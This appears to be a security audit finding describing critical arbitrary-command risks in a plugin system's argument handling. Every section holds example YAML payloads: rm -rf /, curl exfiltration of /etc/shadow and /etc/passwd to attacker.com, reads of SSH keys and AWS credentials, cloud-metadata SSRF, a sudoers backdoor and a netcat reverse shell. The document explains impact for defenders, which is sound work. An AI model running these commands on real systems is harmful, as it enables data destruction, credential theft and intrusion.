 ### 🔴 CRITICAL: Arbitrary Code Execution
```yaml
# Attacker can run ANY command if they control plugin args:
args: ["rm", "-rf", "/"]
args: ["curl", "http://attacker.com", "-d", "@/etc/shadow"]
args: ["python3", "-c", "import os; os.system('...')"]
```

### 🔴 CRITICAL: Data Exfiltration
```yaml
# Read sensitive files:
args: ["/home/user/.ssh/id_rsa"]
args: ["/var/www/app/config/database.yml"]
args: ["~/.aws/credentials"]

# Send to attacker:
- name: "SystemCommand"
  args: ["curl", "-X", "POST", "http://attacker.com", "-d", "@/etc/passwd"]
```

### 🔴 CRITICAL: Environment Variable Exposure
```yaml
# Expose secrets commonly stored in env vars:
args: ["DATABASE_PASSWORD"]
args: ["AWS_SECRET_ACCESS_KEY"]
args: ["JWT_SECRET"]
args: ["API_KEY"]
```

### 🔴 CRITICAL: Server-Side Request Forgery (SSRF)
```yaml
# Access internal services:
args: ["http://169.254.169.254/latest/meta-data/iam/security-credentials/"]  # AWS metadata
args: ["http://localhost:6443/api/v1/secrets"]  # Kubernetes API
args: ["http://internal-admin-panel.local/users"]
```

### 🔴 CRITICAL: Privilege Escalation
If FIPS runs as root or with sudo access:
```yaml
args: ["sudo", "usermod", "-aG", "sudo", "attacker"]
args: ["sudo", "bash", "-c", "echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"]
```

### 🔴 CRITICAL: Lateral Movement
```yaml
# Scan internal network:
args: ["nmap", "192.168.1.0/24"]

# SSH to other systems:
args: ["ssh", "user@internal-server", "command"]

# Pivot through server:
args: ["nc", "-e", "/bin/bash", "attacker.com", "4444"]
```
